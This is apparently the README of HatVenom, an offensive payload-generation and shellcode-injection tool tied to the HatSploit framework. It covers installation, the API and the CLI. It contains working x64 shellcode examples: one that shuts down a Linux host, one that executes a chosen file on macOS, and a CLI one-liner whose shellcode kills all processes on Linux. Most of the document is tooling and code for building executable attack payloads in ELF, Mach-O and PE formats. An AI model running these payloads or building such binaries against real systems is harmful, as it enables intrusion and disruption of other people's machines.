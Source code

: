 # HatVenom

<p>
    <a href="https://entysec.netlify.app">
        <img src="https://img.shields.io/badge/developer-EntySec-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/HatVenom">
        <img src="https://img.shields.io/badge/language-Python-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/HatVenom/stargazers">
        <img src="https://img.shields.io/github/stars/entysec/hatvenom?color=orange">
    </a>
</p>

HatSploit native powerful payload generation and shellcode injection tool that provides support for common platforms and architectures.

## Features

* Support for most common executable formats like `elf`, `macho`, `pe`.
* Support for most common architectures like `x64`, `x86`, `aarch64`, `armle`, `mipsle`, `mipsbe`.
* Ability to modify shellcode by changing pre-defined offsets.

## Installation

```shell
pip3 install git+https://github.com/EntySec/HatVenom
```

## Basic functions

There are all HatVenom basic functions that can be used to generate payload, covert data or inject shellcode.

* `ip_bytes(ip)` - Converts IP address to bytes allowed by shellcode.
* `port_bytes(port)` - Converts numeric port to bytes allowed by shellcode.
* `string_bytes(string)` - Converts string to bytes allowed by shellcode.
* `generate(file_format, arch, shellcode, offsets={})` - Generates payload for specified target and with specified shellcode.
* `generate_to(file_format, arch, shellcode, offsets={}, filename='a.out')` - Generates payload for specified target and with specified shellcode and saves it to the specified file.

## Generating payload

It's very easy to generate payload for various targets in HatVenom. Let's generate a simple payload that calls shutdown for Linux and save it to `a.out`.

### Examples

```python
from hatvenom import HatVenom

shellcode = (
    b"\x48\x31\xc0\x48\x31\xd2\x50\x6a"
    b"\x77\x66\x68\x6e\x6f\x48\x89\xe3"
    b"\x50\x66\x68\x2d\x68\x48\x89\xe1"
    b"\x50\x49\xb8\x2f\x73\x62\x69\x6e"
    b"\x2f\x2f\x2f\x49\xba\x73\x68\x75"
    b"\x74\x64\x6f\x77\x6e\x41\x52\x41"
    b"\x50\x48\x89\xe7\x52\x53\x51\x57"
    b"\x48\x89\xe6\x48\x83\xc0\x3b\x0f"
    b"\x05"
)

hatvenom = HatVenom()
hatvenom.generate_to('elf', 'x64', shellcode)
```

## Payload offsets

Payload offsets is a variables used to add something to a shelcode on the preprocessing stage. Offsets looks like this:

```shell
\x90\x90\x90\x90:message:string:\x90\x90\x90\x90
```

Where `message` is an offset name and `string` is an offset type. So the basic usage of the offset looks like:

```shell
[shellcode]:[name]:[type]:[shellcode]
```

There are some possible offsets types:

* `string` - Plain text that will be converted to bytes on the preprocessing stage.
* `ip` - IP address that will be converted to bytes on the preprocessing stage.
* `port` - Numeric port that will be converted to bytes on the preprocessing stage.

So if you want to replace offset with bytes instead of `string`, `ip` and `port`, you can use this type:

```shell
[shellcode]:[name]:[shellcode]
```

### Examples

Let's generate a simple payload that executes provided through `file` offset file for macOS and save it to `a.out`.

```python
from hatvenom import HatVenom

shellcode = (
    b"\x48\x31\xf6\x56\x48\xbf"
    b":file:string:"
    b"\x57\x48\x89\xe7\x48\x31"
    b"\xd2\x48\x31\xc0\xb0\x02"
    b"\x48\xc1\xc8\x28\xb0\x3b"
    b"\x0f\x05"
)

hatvenom = HatVenom()
hatvenom.generate_to('macho', 'x64', shellcode, {'file':'//bin/ps'})
```

## HatVenom CLI

HatVenom also has their own command line interface that can be invoked by executing `hatvenom` command:

```
usage: hatvenom [-h] [--format FORMAT] [--arch ARCH] [--shellcode SHELLCODE]
                [--offsets OFFSETS] [-o OUTPUT] [-l]

Powerful payload generation and shellcode injection tool that provides support
for common platforms and architectures.

optional arguments:
  -h, --help            show this help message and exit
  --format FORMAT       Platform to generate for.
  --arch ARCH           Architecture to generate for.
  --shellcode SHELLCODE
                        Shellcode to inject.
  --offsets OFFSETS     Shellcode offsets.
  -o OUTPUT, --output OUTPUT
                        File to output generated payload.
  -l, --list            List all formats and platforms.
```

### Examples

Let's generate a simple payload that kills all processes for Linux and save it to `a.out`.

```shell
hatvenom --format elf --arch x64 --shellcode "\x6a\x3e\x58\x6a\xff\x5f\x6a\x09\x5e\x0f\x05"
```

**NOTE:** If you want to use offsets in the CLI version of HatVenom, then you should use `--offsets one=1,two=2`

## Other tools

<p>
    <a href="https://github.com/EntySec/Ghost">
        <img src="https://img.shields.io/badge/EntySec-Ghost-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/RomBuster">
        <img src="https://img.shields.io/badge/EntySec-RomBuster-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/Shreder">
        <img src="https://img.shields.io/badge/EntySec-Shreder-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/HatSploit">
        <img src="https://img.shields.io/badge/EntySec-HatSploit-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/CamOver">
        <img src="https://img.shields.io/badge/EntySec-CamOver-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/CamRaptor">
        <img src="https://img.shields.io/badge/EntySec-CamRaptor-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/membrane">
        <img src="https://img.shields.io/badge/EntySec-membrane-f34c79.svg">
    </a>
    <a href="https://github.com/EntySec/pwny">
        <img src="https://img.shields.io/badge/EntySec-pwny-448eff.svg">
    </a>
</p>
